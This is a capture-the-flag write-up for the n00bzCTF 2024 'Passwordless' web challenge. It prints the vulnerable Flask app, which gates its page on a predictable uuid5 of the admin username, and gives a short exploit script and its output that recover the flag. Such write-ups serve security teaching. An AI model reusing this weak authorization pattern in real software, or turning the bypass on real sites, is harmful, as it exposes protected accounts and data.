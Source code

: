 # n00bzCTf-2024					
![Alt Text](/b525cca891743bde0dd6216253c5fda9.png)

## Challenge's Description 

Tired of storing passwords? No worries! This super secure website is passwordless! Author: `NoobMaster`
### Attachments
- [app.py](https://static.n00bzunit3d.xyz/Web/Passwordless/app.py)
- [http://24.199.110.35:40150/](http://24.199.110.35:40150/)

## Solution 

We are given an python file that the website runs. Not something difficult here, it tell us straight forward that to get the flag you need to be the user "admin123" and have the uuid equal to "13371337-1337-1337-1337-133713371337"

**app.py:**
```python
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import subprocess
import urllib
import uuid
global leet

app = Flask(__name__)
flag = open('/flag.txt').read()
leet=uuid.UUID('13371337-1337-1337-1337-133713371337')

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        if username == 'admin123':
            return 'Stop trying to act like you are the admin!'
        uid = uuid.uuid5(leet,username) # super secure!
        return redirect(f'/{uid}')

@app.route('/<uid>')
def user_page(uid):
    if uid != str(uuid.uuid5(leet,'admin123')):
        return f'Welcome! No flag for you :('
    else:
        return flag

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

If we try to do it without some tool or script to intercept the requests we will failed cause after we insert the username as "admin123" a random uuid get generated and of course isn't the one that we want to get the flag. 
So, in order to take the flag we must do it with some tool like burpsuite/postman or to write an exploit script. I did both of them xD

**exploit.py:**
```python
#!/usr/bin/env python3
import uuid
from requests import get

url = "http://24.199.110.35:40150/"

leet = uuid.UUID('13371337-1337-1337-1337-133713371337')
admin_username = 'admin123'

admin_uid = uuid.uuid5(leet, admin_username)
print('[+] admin uuid: ' + str(admin_uid))

r = get(url=url+str(admin_uid))
print(r.text)
```

And we got the flag!

```sh
┌──(vein㉿vein)-[~]
└─$ ./exploit.py      
[+] admin uuid: 3c68e6cc-15a7-59d4-823c-e7563bbb326c
n00bz{1337-13371337-1337-133713371337-1337}
```
